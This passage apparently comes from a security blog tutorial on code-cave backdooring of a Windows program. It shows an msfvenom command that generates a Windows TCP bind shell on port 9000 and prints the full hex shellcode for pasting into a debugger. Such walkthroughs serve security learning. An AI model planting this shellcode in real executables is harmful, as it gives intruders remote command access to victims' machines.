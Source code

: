 ![](/assets/img/Code_Cave/11.png)

#### Where the fun is born

The following step is introducing the shellcode. In this scenario, i have chosen a bind shell from msfvenom. Furthermore, in order to paste it into the debugger through a binary copy, the format must be hex.

```term
root@whitecr0wz:~# msfvenom -p windows/shell_bind_tcp LPORT=9000 -f hex 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 328 bytes
Final size of hex file: 656 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f
6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd56a085950e2fd
4050405068ea0fdfe0ffd597680200232889e66a10565768c2db3767ffd55768b7e938ffffd5576874ec3be1ffd5579768756e4d61ffd568636d640089e357575731f66a125956e2fd66c744243c01018d442410c60044545
056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd5
```
